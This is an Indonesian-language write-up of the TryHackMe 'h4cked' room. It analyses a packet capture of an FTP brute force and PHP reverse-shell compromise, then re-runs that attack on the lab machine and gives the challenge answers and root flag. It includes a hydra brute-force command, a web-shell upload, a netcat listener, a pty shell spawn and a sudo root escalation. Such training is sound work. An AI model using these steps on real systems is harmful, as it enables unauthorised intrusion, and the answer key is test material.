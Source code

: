 # CTF - h4acked
- TryHackMe Challenge: https://tryhackme.com/room/h4cked
- IP Machine: 10.10.49.69

## Task 1 Oh no! We've been hacked!
- Buka file **capture.pcapng** menggunakan tool Wireshark
- **Pertanyaan:** The attacker is trying to log into a specific service. What service is this?
- Sorting packet berdasarkan protocol, disini kita melihat bahwa attacker berusaha mengakses masuk ke FTP Server

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%201.JPG)

```sh
FTP
```
- **Pertanyaan:** There is a very popular tool by Van Hauser which can be used to brute force a series of services. What is the name of this tool?
- Lakukan pencarian menggunakan google, disini didapat informasi bahwa tool tersebut adalah **thc-hydra** atau lebih dikenal dengan **hydra**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%202.JPG)

- Di kali linux juga sudah terinstall tool hydra secara default. Kita bisa menggunakan perintah `hydra -h` untuk melihat deskripsi dari tool ini  

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%203.JPG)

```sh
hydra
```

- **Pertanyaan:** The attacker is trying to log on with a specific username. What is the username?
- Kita bisa menerapkan filter **ftp.request** di Wireshark dan disini dapat kita amati bahwa attacker berusaha masuk ke FTP Server dengan Username **jenny**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%204.JPG)

```sh
jenny
```

- **Pertanyaan:** What is the user's password?
- Scroll kebawah hingga menemukan packet dengan Response **Login Successful**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%205.JPG)

- Klik kanan packet nomor 395 lalu pilih **Follow** kemudian pilih **TCP Stream**. Terlihat bahwa attacker berhasil mengakses FTP Server dengan USER **jenny** dan PASS **password123** 

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%206.JPG)

```sh
password123
```

- **Pertanyaan:** What is the current FTP working directory after the attacker logged in?
- Dari hasil TCP Stream diatas, terlihat bahwa setelah attacker mengetikkan perintah `PWD` hasilnya adalah `\var\www\html` 

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%207.JPG)

```sh
/var/www/html
```

- **Pertanyaan:** The attacker uploaded a backdoor. What is the backdoor's filename?
- Dari hasil TCP Stream diatas juga terlihat bahwa attacker mengetikkan perintah `STOR shell.php` untuk mengupload file **shell.php** ke FTP Server

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%208.JPG)

```sh
shell.php
```

- **Pertanyaan:** The backdoor can be downloaded from a specific URL, as it is located inside the uploaded file. What is the full URL?
- Hapus filter sebelumnya dan gunakan filter **ftp-data** maka akan didapat 2 packet sebagai berikut

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%209.JPG)

- Klik kanan pada packet nomor 431 lalu pilih **Follow** kemudian **TCP Stream**. Disini terlihat isi file **shell.php** dan darimana script tersebut diperoleh

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2010.JPG)

```sh
http://pentestmonkey.net/tools/php-reverse-shell
```

- **Pertanyaan:** Which command did the attacker manually execute after getting a reverse shell?
- Hapus filter lalu kita telusuri packet dimana attacker mengeksekusi file **shell.php**. Terlihat di packet nomor 450 attacker melakukan request GET ke **shell.php**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2011.JPG)

- Karena di packet nomor 450 attacker mengeksekusi file **shell.php**, maka di packet nomor 452 attacker berhasil memperoleh hasil eksekusi file backdoor **shell.php**. Klik kanan pada packet nomor 452 lalu pilih **Follow** kemudian **TCP Stream**. Terlihat perintah pertama yang dieksekusi attacker adalah `whoami`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2012.JPG)

```sh
whoami
```

- **Pertanyaan:** What is the computer's hostname?
- Dari hasil TCP Stream diatas, terdapat deskripsi OS, hostname, dan sebagainya. Jika Linux adalah OS maka wir3 adalah hostname

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2013.JPG)

```sh
wir3
```

- **Pertanyaan:** Which command did the attacker execute to spawn a new TTY shell?
- Scroll kebawah hasil TCP Stream sebelumnya, disini terdapat perintah `python3 -c 'import pty; pty.spawn("/bin/bash")'`. Dimana perintah tersebut adalah perintah untuk TTY Shell

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2014.JPG)

```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- **Pertanyaan:** Which command was executed to gain a root shell?
- Dari hasil TCP Stream diatas juga terlihat bahwa attacker berhasil mendapatkan akses root setelah mengeksekusi perintah `sudo su`

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2015.JPG)

```sh
sudo su
```

- **Pertanyaan:** The attacker downloaded something from GitHub. What is the name of the GitHub project?
- Scroll kebawah hasil TCP Stream sebelumnya, disini ditemukan url repository git. Dimana f0rb1dd3n adalah pembuat repository dan Reptile adalah nama projeknya

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2016.JPG)

```sh
Reptile
```

- **Pertanyaan:** The project can be used to install a stealthy backdoor on the system. It can be very hard to detect. What is this type of backdoor called?
- Buka url repository git tersebut di browser, di bagian about terdapat informasi bahwa repository ini berisi tentang **LKM Linux rootkit**

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2017.JPG)

```sh
rootkit
```

## Tak 2 Hack your way back into the machine
- Disini kita akan melakukan hal yang sama seperti yang dilakukan oleh attacker
- Brute force akun FTP `jenny` menggunakan tool `hydra` dan wordlist `rockyou.txt` yang ada di kali linux
```sh
hydra -l jenny -P /usr/share/wordlists/rockyou.txt <IP_Machine> ftp
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2018.JPG)

- Password login FTP user `jenny` berhasil ditemukan. Sekarang kita akses FTP tersebut. Disana ditemukan file `shell.php`, download file tersebut ke local lalu logout dari FTP server
```sh
ftp <IP_Machine>
get shell.php
bye
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2019.JPG)

- Edit file **shell.php** dengan editor nano. Ubah IP dengan IP tun0 pada komputer yang anda gunakan
```sh
nano shell.php
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2020.JPG)
![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2021.JPG)

- Upload file **shell.php** yang sudah diedit ke FTP Server dan pastikan posisi direktori di **/var/www/html**
```sh
ftp <IP_Machine>
put shell.php
bye
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2022.JPG)

- Buat sebuah listener netcat di terminal baru dan set ke port 80 sesuai dengan konfigurasi file **shell.php** diatas
```sh
nc -lnvp 80
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2023.JPG)

- Jalankan file **shell.php** dengan mengakses url `http://<IP_Machine>/shell.php` di browser

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2024.JPG)

- Netcat berhasil terkoneksi

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2025.JPG)

- Bikin menjadi interaktif terminal dengan perintah dibawah ini:
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2026.JPG)

- Switch ke user jenny lalu masukkan password FTP jenny diatas
```sh
su jenny
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2027.JPG)

- Masuk ke akses root lalu masukkan password FTP jenny
```sh
sudo su
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2028.JPG)

- Root flag berada di file **flag.txt** di directory **/root/Reptile**
```sh
cat /root/Reptile/flag.txt
```

![alt text](https://github.com/rahardian-dwi-saputra/TryHackMe-WriteUps/blob/main/h4cked/assets/hk%2029.JPG)

- **Pertanyaan:** Read the flag.txt file inside the Reptile directory
```sh
ebcefd66ca4b559d17b440b6e67fd0fd
```